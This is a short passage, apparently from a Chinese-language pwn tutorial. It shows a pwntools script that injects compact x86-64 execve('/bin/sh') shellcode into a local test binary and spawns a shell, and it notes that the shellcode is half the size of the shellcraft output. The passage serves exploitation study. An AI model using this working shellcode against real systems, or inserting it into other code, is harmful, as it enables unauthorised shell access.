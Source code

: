 ```plain
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```

测试后发现能够 getshell，并且这段 shellcode 长度仅有 0x16 字节，再看 shellcraft 生成的 0x30 多的字节，足足缩短了一半

[![](assets/1708940669-ac362b39c47ee5005d56ebb6693c3472.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205726-17fa94c8-d24b-1.png)
